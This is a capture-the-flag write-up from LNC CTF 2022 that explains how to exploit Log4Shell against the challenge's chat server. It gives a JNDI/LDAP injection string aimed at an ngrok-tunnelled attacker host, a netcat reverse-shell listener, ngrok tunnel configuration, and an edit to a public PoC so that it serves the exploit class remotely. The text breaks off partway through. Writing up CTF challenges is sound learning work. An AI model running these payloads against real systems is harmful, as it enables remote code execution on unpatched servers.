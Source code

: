 # Log for Jodie (Log4Shell CVE)

Hi there!
Here is how I've solved the "Log for Jodie" challenge in LNC CTF 2022.

# WARNING
This writeup is for EDUCATIONAL PURPOSES only. I do not have any responsibility if you face any legal consequences arising from the usage of this PoC.

## Challenge description

I found a chatroom for coffee lovers. Right now it's going strong but it would be better with more people! So tell your friends about it now! Oh, btw did you hear? Minecraft got hacked.
`nc c2.lagncrash.com 8003`

## Solution & step-by-step walkthrough
This challenge seems to be using Log4Shell, an exploit for Apache Log4J that was released in late 2021.  
https://en.wikipedia.org/wiki/Log4Shell  
It allows one to RCE into other servers just by using JNDI paired with LDAP. 

Knowledge of Java (and Python) is useful, although not strictly required.

Firstly, let us netcat into the server provided.
![Screenshot from 2022-03-25 15-00-11](https://user-images.githubusercontent.com/58442255/160070697-9cb70585-3270-4e1b-bbae-2490d89bfc9d.png)  
The server has spawned a link for us to connect. Let us connect to that as well.
![Screenshot from 2022-03-25 15-02-05](https://user-images.githubusercontent.com/58442255/160070820-4a6a2ca1-1983-46b3-bd62-fff3746e865c.png)  
Create a nickname and start messaging.

Let's test if the application is vulnerable. You can use any Log4J testing tool on the Internet to test.  
I found this one: https://log4shell.tools/  
Here's a screenshot:
![Screenshot from 2022-03-25 14-59-12](https://user-images.githubusercontent.com/58442255/160070457-918b9ed3-be83-4572-8e96-2cdcccc5892a.png)
Let's enter the JNDI LDAP string into the chat app:
![Screenshot from 2022-03-25 15-07-12](https://user-images.githubusercontent.com/58442255/160071615-8d93a4bd-7d0e-465e-805f-f34beb1c3be6.png)
The server is <b>vulnerable.</b>

Now that we know that the server is vulnerable, how do we RCE into it and get the flag?   
A quick search returns several Log4Shell PoCs, which I used this one: https://github.com/kozmer/log4j-shell-poc

Run:  

```sh
pip install -r requirements.txt
```

Do note that you have to download Oracle JDK at https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html. The download is under the  Java SE Development Kit 8u20 section, can use CTRL+F for that.  
You need an Oracle account for this. If you do not want to reveal your email address, you can use Firefox Relay (https://relay.firefox.com)  
Once you've downloaded the JDK zip, unzip it into the Log4J exploit folder like so:
![Screenshot from 2022-03-25 16-41-53](https://user-images.githubusercontent.com/58442255/160085859-fbf994fa-f92c-4cfc-8a5a-8b03b6b209db.png)


And then run these 2 simultaneously in different sessions:
`nc -lvnp 9001` and `python3 poc.py --userip localhost --webport 8000 --lport 9001`

![Screenshot from 2022-03-25 16-59-03](https://user-images.githubusercontent.com/58442255/160088969-1bd90197-a342-4a6e-8329-e31ed4cf3edb.png)


From here, we can see that the PoC is doing input/output from `localhost`. Unfortunately, `localhost` is not available on the Internet, hence the remote server cannot access the exploit.




A quick search online on exposing localhost to the Internet returns this Stack Overflow post: https://stackoverflow.com/questions/5108483/access-localhost-from-the-internet. This explains how to setup a tunnel for localhost ports.  
Since we're doing it from localhost and a local tunnel, **there is no need to setup a dedicated web server**.  

Out of the 3 services listed, only `ngrok` worked for me. Head to https://ngrok.com/ and create an account (same thing as above, you can use [Firefox Relay](https://relay.firefox.com) if you don't want to reveal your email) 

![Screenshot from 2022-03-25 16-54-35](https://user-images.githubusercontent.com/58442255/160088584-fede8779-1458-4dd6-803b-f2fcf7aa6bf3.png)

(if `ngrok` does not work try `./ngrok` from the directory that you unzipped the file)
Follow Steps 1 and 2. 
For step 3, we need to specify the ports. The web server where exploit class is located is at port 8000, while JNDI/LDAP server is at 1389. For the JNDI/LDAP server, after some testing, I found that we cannot use HTTP. We need to use TCP.  

To open multiple ports at once, you can do this:

Edit `~/.ngrok2/ngrok.yml` and put:
```
authtoken: <YOUR AUTH TOKEN HERE>
tunnels:
  first:
    addr: 1389
    proto: tcp
  second:
    addr: 8000
    proto: http
```
Type `./ngrok start --all ` to create both TCP and HTTP servers.
![Screenshot from 2022-03-25 17-17-29](https://user-images.githubusercontent.com/58442255/160091925-112d5210-4298-4aac-b2ed-395ea890ed73.png)

Once we have that settled, we can replace the URL in the JNDI/LDAP string from `${jndi:ldap://localhost:1389/a}` to `${jndi:ldap://<TCP ADDRESS HERE>/a}`

e.g.
`${jndi:ldap://4.tcp.ngrok.io:15199/a}`

When we paste that in, head to the Python poc.py and you will see something like
```
Send LDAP reference result for a redirecting to http://localhost:8000/Exploit.class
```

The localhost servers are already ported, but as you can see, the chat application is still on localhost.
Upon inspection of `poc.py`, we see that this line is responsible:

 
 ​  `  ​url​ ​=​ ​"http://{}:{}/#Exploit"​.​format​(​userip​, ​lport​)`
So we can change that yo our Web server url (the one running 8000 on local host.)
 
 ​   ` ​url​ ​=​ ​"http://{}/#Exploit"​.​format​(​"<WEB SERVER URL HERE>")`

